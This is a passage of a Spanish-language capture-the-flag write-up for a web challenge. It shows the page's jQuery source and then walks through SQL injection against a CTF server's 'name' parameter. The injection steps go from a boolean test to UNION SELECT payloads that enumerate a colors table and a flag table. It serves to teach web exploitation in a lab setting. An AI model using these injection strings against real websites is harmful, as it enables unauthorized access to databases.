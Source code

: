 ```html
    <button id="blue">Blue</button>
    <button id="black">Black</button>
    <button id="white">White</button>
  </div>

  <script>
    $(document).ready(function(){
      $('button').click(function(x){
        $.get("/get?name=" + this.id, function(data){

          var color = data.colors[0][0];
          $('#bandera').css('background', '#' + color);
        });
      });
    })
  </script>
</div>
```

La petición en cuestión es:

`http://ctf.alphasec.xyz:9091/get?name=<color>`

Lo primero que a uno se le viene a la cabeza es probar SQLi, así que procedemos a comprobar si es vulnerable:

`http://ctf.alphasec.xyz:9091/get?name=blue' and 1=1--`

Y obtenemos el siguiente resultado:

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Web/Images/redflag4.png" width=350>

Podemos observar como si es vulnerable. Probando lo siguiente:

`http://ctf.alphasec.xyz:9091/get?name=blue' or 1=1--`

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Web/Images/redflag5.png" width=350>

Y obtenemos la representación RGB en hex de varios colores, pero uno de los valores no cuadra demasiado (`red`), y dado que lo que manejamos son colores y banderas, y los parámetros GET están en inglés, se probó con un poco de sentido común:

`http://ctf.alphasec.xyz:9091/get?name=blue' union select name from colors--`

Y obtenemos lo siguiente:

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Web/Images/redflag6.png" width=350>

Como observamos aquí, `flag` no pinta para nada, por lo que nos da una pista de como seguir, así que probamos lo siguiente:

`http://ctf.alphasec.xyz:9091/get?name=blue' union select id from flag--`

Y obtenemos:

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Web/Images/redflag7.png" width=350>
